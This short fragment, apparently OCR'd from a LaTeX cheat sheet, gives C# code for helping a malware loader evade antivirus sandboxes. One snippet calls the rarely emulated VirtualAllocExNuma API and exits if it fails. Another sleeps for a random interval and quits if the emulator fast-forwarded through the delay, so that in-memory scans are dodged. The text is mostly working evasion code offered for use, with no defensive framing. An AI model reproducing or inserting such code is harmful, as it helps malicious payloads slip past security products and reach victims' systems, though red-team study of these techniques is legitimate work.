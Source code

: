 \begin{itemize}
    \item Call rare-enumated API 
    \begin{verbatim}
        if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
        {
            return;
        }
    \end{verbatim}
\end{itemize}



\subsection{Evade in-memory scan}

\begin{itemize}
    \item Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
    \begin{verbatim}
        var rand = new Random();
        uint dream = (uint)rand.Next(10000, 20000);
        double delta = dream / 1000 - 0.5;
        DateTime before = DateTime.Now;
        Sleep(dream);
        if (DateTime.Now.Subtract(before).TotalSeconds < delta)
        {
            Console.WriteLine("Charles, get the rifle out. We're being fucked.");
            return;
        }
    \end{verbatim}
\end{itemize}